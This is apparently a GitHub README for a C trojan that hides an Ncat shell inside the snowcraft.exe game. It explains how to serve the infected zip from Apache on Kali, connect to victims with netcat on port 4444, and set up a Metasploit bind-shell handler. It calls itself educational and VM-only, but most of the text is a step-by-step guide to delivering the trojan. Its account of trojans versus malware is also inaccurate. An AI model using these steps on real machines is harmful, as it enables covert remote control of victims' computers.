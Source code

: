 # davidTrojan

This is a simple script (exploit) built with C that tries to demonstrate how to shell shoveling using the Ncat software and the famous snowcraft.exe PC Game. 

This software is intended for educational purposes, the whole experience were developed in controlled VM's that will explain later on.

#### Ncat

Is a software that let read and write packets (data transmitted) from a network. Actually It's very useful for things like

1. Monitoring packets on TCP and UDP ports
2. Debugging in **victims machines** without any notice.

#### Explanation

In common scenarios, we have a client machine that represents the victim and a server that hosts the infected file, usually exposed via .exe files (for Windows OS environments).

So, in our victim machine, we have a Windows 7 Home edition, 64 bits with a bridged network with the [192.168.1.119 ] IP address. The server is a Kali Linux that serves a **infected zip** (please refer to the repo) file using **apache web server**, with the [192.168.1.133] IP Address.

#### Apache on Kali

Checking the Apache service status (it's already installed)

`systemctl status apache2`

Starting the service

`systemctl start apache2`

Placing the infected files for the victims

`/var/www/html/` directory

#### Trojan vs Malware.

There's a big and principal difference between them, but in simple words, the Malware replicates and infects other machines and Trojans do not, they actually locates and hide on memory and it's harder to detect.

#### Accessing the infected Zip

Since we are using Apache, and both OS are bridged to a main network configuration, both machines have different IP's addresses on the same range. So, it's like accessing to a simple web server, this time instead, we use the Host (Kali) IP address to get in.

`http://[IP]/any-directory-created`-for-the-game

When we run the .exe "game" file, actually displays the **snowcraft.exe** game, but also triggers the **ncat** command on a **non-common port**, this let's monitoring packets from the network for a later reverse shell.

#### Reverse Shell

If the **Ncat** is running on the client mode, on the server side we just `nc [IP][Port]` and will we have control on the victim machine while the program is running.

For the script example we just run: `nc 192.168.1.113 4444` where the **4444** is the **non-common port** for establishing the communication. This previous example works because we actually know the victim's IP address. 

In case the client is on another network we can use some alternatives, like checking the Apache server access.log file for getting the victim's IP addresses, or we can run the **nc command** without the IP address, resulting something like: `nc -l -p 4444`

The last one will work only if the nc utility is running on client mode.

#### Other way: using the Metaexploit Framework.

This example is for using Metaexploit framework for finding the user's IP address and accessing it (On kali).

`msfconsole (accessing to the M.E framework)`

`msf> use exploit/multi/handler (it's like a module for resolving payloads)`

`msf> set PAYLOAD windows/shell_bind_tcp (connection type)`

`msf> set LPORT 4444`

`msf> set RHOST [target IP address]`

`msf> exploit (running exploit)`

## Credits

- [David Lares S](https;//twitter.com/davidlares3)

## License

- [MIT](https://opensource.org/licenses/MIT)